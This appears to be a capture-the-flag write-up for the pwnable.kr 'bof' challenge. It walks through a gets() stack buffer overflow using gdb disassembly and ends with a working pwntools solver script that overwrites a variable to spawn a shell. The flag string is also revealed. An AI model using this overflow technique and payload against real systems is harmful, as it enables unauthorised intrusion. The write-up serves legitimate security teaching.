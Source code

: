 # bof

First, I used `file` command to check whether the binary file is using 32bit or 64bit.
```
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```
So, this is 32-bit ELF binary.

```c
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
```

The goal is overwriting the input variable `key` to `0xcafebabe`. The buffer `overflowme` has length at most 32, however it uses `gets` to update the data. This is typical buffer overflow vulnerability.
```
+----------------+
| argument1: key |
+----------------+
| return address |
+----------------+
|     old ebp    |
+----------------+
| overflowme[32] |
+----------------+
```
Above figure is predicted stack structure. However, it can be different due to compiler optimization, so we need to look the assembly code. I used gdb to do it. Make breakpoint on main, and run it. Disassembly result was:

```
(gdb) disass main
Dump of assembler code for function main:        
   0x5655568a <+0>:     push   %ebp
   0x5655568b <+1>:     mov    %esp,%ebp
=> 0x5655568d <+3>:     and    $0xfffffff0,%esp  
   0x56555690 <+6>:     sub    $0x10,%esp        
   0x56555693 <+9>:     movl   $0xdeadbeef,(%esp)
   0x5655569a <+16>:    call   0x5655562c <func> 
   0x5655569f <+21>:    mov    $0x0,%eax
   0x565556a4 <+26>:    leave  
   0x565556a5 <+27>:    ret    
End of assembler dump.
(gdb) disass func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   %ebp
   0x5655562d <+1>:     mov    %esp,%ebp
   0x5655562f <+3>:     sub    $0x48,%esp
   0x56555632 <+6>:     mov    %gs:0x14,%eax
   0x56555638 <+12>:    mov    %eax,-0xc(%ebp)
   0x5655563b <+15>:    xor    %eax,%eax
   0x5655563d <+17>:    movl   $0x5655578c,(%esp)
   0x56555644 <+24>:    call   0xf7e3ecd0 <puts>
   0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
   0x5655564c <+32>:    mov    %eax,(%esp)
   0x5655564f <+35>:    call   0xf7e3e1b0 <gets>
   0x56555654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)        
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    movl   $0x5655579b,(%esp)
   0x56555664 <+56>:    call   0xf7e12830 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    movl   $0x565557a3,(%esp)
   0x56555672 <+70>:    call   0xf7e3ecd0 <puts>
   0x56555677 <+75>:    mov    -0xc(%ebp),%eax
   0x5655567a <+78>:    xor    %gs:0x14,%eax
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7ee54e0 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
```

We can observe that the argument of gets is in `-0x2c(%ebp)`. Also, the argument of `func` is located in `0x8(%ebp). The difference of them is 0x34, so the solver is:
```python
from pwn import *

p = remote('pwnable.kr', 9000)
payload = b'A'*0x34 + p32(0xcafebabe)
p.sendline(payload)
p.interactive()
```

Then we accessed shell. `cat flag` returns `daddy, I just pwned a buFFer :)`.